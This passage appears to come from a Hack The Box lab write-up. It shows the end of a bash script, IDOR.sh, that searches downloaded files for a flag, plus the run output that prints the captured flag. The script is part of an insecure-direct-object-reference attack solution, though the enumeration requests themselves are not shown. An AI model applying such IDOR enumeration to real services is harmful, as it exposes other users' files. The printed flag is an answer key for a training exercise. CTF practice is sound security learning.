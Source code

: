 ```bash
 grep -oP 'HTB\{.*?\}' "$filename"
 return # Exit after first flag found
 fi
 fi
 done
done

# If we didn't exit early, check all downloaded files
if [ -z "$flag_file" ]; then
 for file in "${downloaded_files[@]}"; do
 if [[ "$file" == *.txt ]] && grep -qP 'HTB\{.*?\}' "$file"; then
 flag_file="$file"
 echo -e "\n\033[1;92mFLAG FOUND!\033[0m"
 grep -oP 'HTB\{.*?\}' "$file"
 break
 fi
 done
fi
```


```
smoothment@htb[/htb]$ ./IDOR.sh

FLAG FOUND!
HTB{4ll_f1l35_4r3_m1n3}
Cleaning up...
```

